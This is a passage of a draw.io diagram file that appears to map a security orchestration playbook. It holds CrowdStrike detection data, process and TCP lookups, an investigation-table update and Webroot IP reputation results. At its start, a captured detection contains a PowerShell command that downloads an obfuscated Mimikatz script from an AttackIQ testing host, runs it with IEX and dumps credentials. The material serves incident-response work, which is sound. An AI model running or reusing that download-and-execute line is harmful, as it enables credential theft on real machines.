$mimi=$webclient.DownloadString(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;);}catch [Net.WebException]{&#39;Download failed&#39;; exit -1 };\&quot; \&quot;if ((get-hash($mimi)) -eq &#39;A0B2F9D7CA22E9848585E238D8F32294&#39;) { IEX $mimi; Invoke-Mimikatz -DumpCreds } else { &#39;Invalid HASH for downloaded Mimikatz PowerShell script&#39;; exit -2 }\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;scenario&quot;: &quot;credential_theft&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;objective&quot;: &quot;Gain Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic&quot;: &quot;Credential Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic_id&quot;: &quot;TA0006&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique&quot;: &quot;OS Credential Dumping&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique_id&quot;: &quot;T1003&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;display_name&quot;: &quot;PShellMimikatz&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;description&quot;: &quot;A PowerShell script appears to be launching mimikatz, a password dumping utility. This is often launched as part of a PowerShell exploit kit. Decode and review the script.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;severity&quot;: 70,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;confidence&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_type&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_value&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_source&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_description&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_name&quot;: &quot;WIN-5KM58PAUOE8$&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_id&quot;: &quot;S-1-5-18&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;control_graph_id&quot;: &quot;ctg:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;triggering_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454074737021&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sha256&quot;: &quot;e82115ffd93298cbf1d5837677f5e1cfd5fc515b53f2cf02c473b0f63d542bca&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;md5&quot;: &quot;349f866bd2fa869ed047707c5723b9f1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_sha256&quot;: &quot;5275c42f7359fa2c7ec473be3240e57d5ce5b9301a26bd2e98e89bb9db074581&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_md5&quot;: &quot;22730c835d3129c7567b963699763cbe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_cmdline&quot;: &quot;\&quot;C:\\Program Files\\AttackIQ\\Agent\\engine\\py3\\python\&quot; \&quot;C:\\Program Files\\AttackIQ\\Agent\\attack_graph.py\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454062376310&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition&quot;: 2304,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;indicator&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detect&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;inddet_mask&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sensor_only&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;rooting&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_subprocess&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_machine&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_file&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;policy_disabled&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_parent&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;process_blocked&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;registry_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;critical_process_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bootup_safeguard_enabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;fs_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;handle_operation_downgraded&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_action_failed&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;blocking_unsupported_or_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_parent&quot;: false&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="220" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-179" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeGetProcessbyIOCs&lt;/div&gt;&lt;div&gt;Parameter 1: IOC Type&lt;/div&gt;&lt;div&gt;sha256&lt;/div&gt;&lt;div&gt;Parameter 2: IOC Value&lt;/div&gt;&lt;div&gt;[&quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;]&lt;/div&gt;&lt;div&gt;Parameter 3: Host Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="430" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-180" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="465" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-181" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeGetTCPConnectionInfo&lt;/div&gt;&lt;div&gt;Parameter 1: Endpoint ID&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="655" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-182" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.33.195.208&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;34.211.152.164&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.48.56&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.121&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.226.139.180&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;185.159.159.170&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;172.64.140.31&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;172.67.194.22&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;40.113.110.67&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;54.183.140.32&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="690" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-183" value="Investigation-Correlate Process Info&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="5230" y="580" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-185" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Process Information Related to Malicious SHA256&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;commander.exe&quot;]&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5300" y="405" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-186" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5300" y="440" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-187" value="Containment&lt;br&gt;Stage" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="6770" y="290" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-195" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-190" target="NKeEgVbL9whLPdXC6YmX-194">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-190" value="Check IP Reputation - Webroot&lt;br&gt;Command - Check IP Reputation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="5260" y="810" width="250" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-192" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Check IP Reputation&lt;/div&gt;&lt;div&gt;Parameter 1: IPs&lt;/div&gt;&lt;div&gt;[&quot;52.226.139.185&quot;,&quot;54.67.92.206&quot;,&quot;52.178.17.3&quot;,&quot;52.33.195.208&quot;,&quot;34.211.152.164&quot;,&quot;54.67.48.56&quot;,&quot;52.226.139.121&quot;,&quot;52.226.139.180&quot;,&quot;185.159.159.170&quot;,&quot;172.64.140.31&quot;,&quot;172.67.194.22&quot;,&quot;40.113.110.67&quot;,&quot;185.183.33.217&quot;,&quot;54.67.68.88&quot;,&quot;20.66.84.207&quot;,&quot;40.99.16.226&quot;,&quot;104.21.20.191&quot;,&quot;100.64.0.6&quot;,&quot;23.192.47.10&quot;,&quot;204.79.197.239&quot;,&quot;65.9.42.42&quot;,&quot;23.192.46.235&quot;,&quot;142.251.42.131&quot;,&quot;13.107.21.239&quot;,&quot;52.111.245.2&quot;,&quot;23.43.249.42&quot;,&quot;52.112.115.3&quot;,&quot;20.198.119.84&quot;,&quot;138.199.21.216&quot;,&quot;168.63.129.16&quot;,&quot;54.183.140.32&quot;]&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-193" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.226.139.185&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 887262137,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.226.139.185&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;77&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.92.206&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910384334,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.92.206&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.178.17.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 884084995,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 77,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk 